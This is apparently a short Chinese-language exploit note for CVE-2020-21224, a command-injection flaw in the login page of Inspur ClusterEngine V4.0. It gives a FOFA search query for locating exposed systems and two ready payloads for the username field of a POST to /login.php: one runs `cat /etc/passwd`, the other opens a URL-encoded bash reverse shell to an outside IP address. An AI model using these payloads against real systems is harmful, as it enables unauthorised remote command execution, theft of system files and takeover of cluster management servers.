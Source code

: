 # 浪潮 ClusterEngineV4.0 集群管理系统 命令执行漏洞 (CVE-2020-21224)

FOFA：

title="TSCEV4.0"

登录处username存在RCE 可直接构造恶意参数进行命令执行：

```
POST /login.php

op=login&username=;`cat /etc/passwd`&password="
shell op=login&username=1 2\',\'1\'\);  `bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.16.11.81%2F80%200%3E%261`
```

ref：

* https://cxsecurity.com/cveshow/CVE-2020-21224/
* https://github.com/NS-Sp4ce/Inspur/tree/master/ClusterEngineV4.0%20Vul